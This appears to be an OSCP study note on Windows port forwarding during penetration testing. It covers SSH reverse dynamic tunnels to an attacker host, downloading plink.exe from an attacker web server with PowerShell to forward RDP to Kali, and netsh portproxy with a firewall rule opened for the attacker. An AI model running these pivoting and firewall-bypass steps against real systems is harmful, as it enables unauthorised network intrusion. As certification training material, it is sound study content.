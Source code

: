 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/10-port-redirection-and-tunneling/2-windows-port-forwarding/","updated":"2024-01-05T11:36:21.551+01:00"}
---
```


- OpenSSH comes with Windows since April 2018
- On machines with SSH installed you find: scp.exe, sftp.exe, ssh.exe, etc. in %systemdrive%\\Windows\\System32\\OpenSSH
-----
## SSH Remote Dynamic Port Forwarding:
1. Start SSH server on attacker machine:
```bash
sudo systemctl start ssh
```
2. Locate ssh.exe in cmd on target:
```powershell
where ssh
```
3. Check version of ssh:
```powershell
ssh.exe -V
```
4. Set up port forwarding:
```bash
ssh -N -R 2345 crabfeather@192.168.45.180
```
5. Use with proxychains and win!

-----------
## Plink.exe Remote Port Forwarding + RDP binding:
1. Download the plink.exe binary to the target:
``` bash
#Start server:
sudo systemctl start apache2

#Download binary:
powershell wget -Uri http://192.168.45.X/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
2. Start port forwarding (use Windows' loopback IP + its listening RDP port to be able to use RDP from kali):
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:2345:<outip>:<outport> <kali-ip>
```
Example: Port forwarding using Windows' loopback IP + its listening RDP port to be able to use RDP from kali:
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:4455:127.0.0.1:3389 <kali-ip>
```

------------------
## Netsh local port forwarding + firewall poking:
- Requires Administrative privs
1. Set up port forwarding:
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.230.64 connectport=22 connectaddress=10.4.230.215
```
2. Confirm it is working:
```powershell
netsh interface portproxy show all
```
3. Poke hole in firewall outwards:
```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.230.64 localport=2222 action=allow
```
4. Delete rules afterwards:
```powershell
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
